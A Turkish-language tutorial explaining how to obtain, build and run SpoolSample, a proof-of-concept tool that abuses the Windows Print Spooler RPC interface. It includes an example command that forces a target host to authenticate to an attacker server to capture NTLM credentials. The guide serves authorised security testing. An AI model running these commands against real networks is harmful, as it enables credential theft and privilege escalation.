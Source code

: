 # SpoolSample Kullanım Rehberi

## SpoolSample Nedir?

**SpoolSample**, Windows sistemlerinde MS-RPRN (Print System Remote Protocol) RPC arayüzü üzerinden bir hedef makineyi başka bir makineye kimlik doğrulaması yapmaya zorlayan bir Proof of Concept (PoC) aracıdır. Bu yöntem, özellikle güvenlik testlerinde kimlik bilgisi toplama ve yetki yükseltme senaryolarında kullanılır.

> **Önemli Not:** SpoolSample, yalnızca yetkili güvenlik testleri ve eğitim amaçlı kullanılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Gereksinimler

- **Hedef Sistem:** Windows işletim sistemi çalıştıran ve Print Spooler hizmeti etkin olan bir makine.
- **Saldırgan Sistemi:** SpoolSample aracının çalıştırılabileceği bir Windows makinesi.

---

## İndirme ve Kurulum

1. **Kaynak Kodun İndirilmesi:**
   ```bash
   git clone https://github.com/leechristensen/SpoolSample.git
   ```

2. **Derleme:**
   - Visual Studio kullanarak projeyi açın ve derleyin.
   - Derleme sonucunda `SpoolSample.exe` dosyasını elde edeceksiniz.

---

## Kullanım

SpoolSample, hedef makineyi saldırganın kontrolündeki bir sunucuya kimlik doğrulaması yapmaya zorlamak için kullanılır. Bu işlem, NTLM kimlik bilgilerini ele geçirmek veya diğer kimlik doğrulama saldırıları için kullanılabilir.

**Temel Kullanım:**
```bash
SpoolSample.exe \HedefMakine \SaldırganSunucu
```

**Parametreler:**
- `\HedefMakine`: Kimlik doğrulaması yapmaya zorlanacak hedef makinenin adı veya IP adresi.
- `\SaldırganSunucu`: Hedef makinenin kimlik doğrulaması yapacağı saldırganın kontrolündeki sunucunun adı veya IP adresi.

**Örnek Kullanım:**
```bash
SpoolSample.exe \192.168.1.10 \192.168.1.20
```
Bu komut, `192.168.1.10` IP adresine sahip hedef makineyi, `192.168.1.20` IP adresine sahip saldırgan sunucusuna kimlik doğrulaması yapmaya zorlar.

---

## Önemli Notlar

- **Print Spooler Hizmeti:** Hedef makinede Print Spooler hizmetinin etkin olması gerekmektedir.
- **Güvenlik Önlemleri:** Bu aracın kullanımı, ağınızın güvenlik politikalarına ve yasal düzenlemelere uygun olmalıdır.

---

## Kaynaklar

- [SpoolSample GitHub Deposu](https://github.com/leechristensen/SpoolSample)
- [MS-RPRN - Print System Remote Protocol](https://msdn.microsoft.com/en-us/library/cc244528.aspx)

---

> **Uyarı:** Bu rehber yalnızca eğitim ve yetkili güvenlik testleri için hazırlanmıştır. Yetkisiz kullanım durumunda yasal sorumluluklar doğabilir.

